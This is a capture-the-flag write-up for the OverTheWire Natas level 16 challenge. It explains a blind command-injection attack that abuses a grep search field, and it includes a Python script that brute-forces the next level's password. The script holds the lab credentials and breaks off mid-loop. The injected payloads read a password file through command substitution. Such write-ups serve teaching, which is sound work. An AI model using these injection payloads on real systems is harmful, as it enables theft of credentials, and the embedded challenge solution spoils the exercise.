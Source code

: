 This mean that we can execute the command we want inside the parenthesis, get that output and pass it to the external `grep`.
What we aim to do is checking if some chars are in the password, similar to the previous level, but this time we do not have an printed output, we have another sign: if we check for a letter or a word that is in the dictionary file we will get those words this means that that letter is not in the password; vice versa if we get no output this mean that the word is in the password.

We can create a command like this 
```bash
$(grep a /etc/natas_webpass/natas17)cutest
```
I choose the word "cutest" because is one of the word i know are in the dictionary, this way i can test if the concept is working; you can chose the one you prefer.
Now we need to reiterate this command, if we get a response and some words appear on the screen we move to the next letter, until we get "no result", in this situation the char is part of the final password.

Again we have to repeat this for all the letters, of the alphabet both upper and lower case + the numbers from 0 to 9.
Once all this is done we have a list of all the chars part of the password, than we need to put find the right order.

As in the last level i have created a python script to automate all this long work
```python

#!/bin/python

# import the libraries that we need
import requests
from requests.auth import HTTPBasicAuth

# Save the login information in variables
username = "natas16"
password = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
url = "http://natas16.natas.labs.overthewire.org/?"

req_object = {'needle': ''}

# Variables that will contain the possible chars and the final password
chars_in_pswd = ''
pswd = ''


# login to natas16 challenge
authentication = HTTPBasicAuth(username, password)
print(requests.get(url, auth=authentication))

# Saving all the possible chars in a variable for later use
chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

# Loop to check the presence of each char
for char in chars:
    payload = "$(grep " + char +" /etc/natas_webpass/natas17)cutest"
    req_object['needle'] = payload
    req = requests.post(url, auth=authentication, data=req_object)
    if 'cutest' not in req.text:
        chars_in_pswd = chars_in_pswd + char

# Print the chars that are contained in the final password
print("the password contains this chars: ", chars_in_pswd)

# Execute the brute-force attack
for count in range(0, 32):
    for char in chars_in_pswd:
        brute_force_payload = "$(grep ^" + pswd + char + " /etc/natas_webpass/natas17)cutest"
```